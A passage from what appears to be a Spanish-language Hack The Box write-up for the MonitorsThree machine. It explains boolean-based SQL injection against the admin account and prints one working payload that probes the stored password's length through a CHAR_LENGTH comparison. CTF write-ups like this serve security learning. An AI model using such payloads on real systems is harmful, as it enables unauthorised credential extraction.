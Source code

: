 ![](assets/img/htb-writeup-monitorsthree/monitorsthree2_6.png)

De forma similar a la validación del usuario, es posible determinar la longitud de la contraseña del usuario `admin` mediante inyecciones condicionales. La idea es comparar la longitud de la contraseña almacenada en la base de datos con diferentes valores y observar cómo responde la web.

Respuesta de la web
* "Content-Length: `3385`".

```sql
admin' AND (SELECT 'a' FROM users WHERE username='admin' AND CHAR_LENGTH(password)>=32)='a'-- -
```

![](assets/img/htb-writeup-monitorsthree/monitorsthree2_7.png)
